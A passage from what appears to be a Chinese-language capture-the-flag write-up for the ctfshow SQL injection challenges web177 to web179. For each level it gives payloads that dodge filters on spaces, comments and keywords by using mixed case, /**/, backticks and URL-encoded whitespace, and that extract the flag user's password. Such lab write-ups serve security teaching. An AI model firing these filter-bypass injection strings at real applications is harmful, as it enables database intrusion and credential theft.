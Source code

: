 对输入参数进行过滤，试试万能密码，发现显示了 flag

```
1' or '1
```

### 方法二

经过测试，好像过滤了 # select ，大小写试试

```
-1'  union SeLect 1,2,password from  ctfshow_user--+
```

### 方法三

```
-1'  or username = 'flag'--+
```

##  web177

对传入的参数进行了过滤，好像**过滤了空格**，试试 /**/ 代替 空格

```
1'/**/union/**/select/**/password,1,1/**/from/**/ctfshow_user/**/where/**/username/**/='flag'%23
```

适当使用反引号 ` 和单引号 ' 也可以代替空格

```
1'union/**/select'1',2,(select`password`from`ctfshow_user`where`username`='flag');%23
```

## web178

一样好像过滤了空格和*，/**/ 代替空格已经不能用了，这次使用 url 编码试试,使用 %09 %0b 等等都行

可以见之前的 sqli-labs 的 Less-26

```
1'union%09select'1',2,3%23
```

```
1'union%09select'1',(select`password`from`ctfshow_user`where`username`='flag'),3%23
```

```
1'or'1'='1'%23
```

## web179

一样过滤了空格，我们还是用 url 编码 ，此时用 %0c

```
1'or'1'='1'%23
```
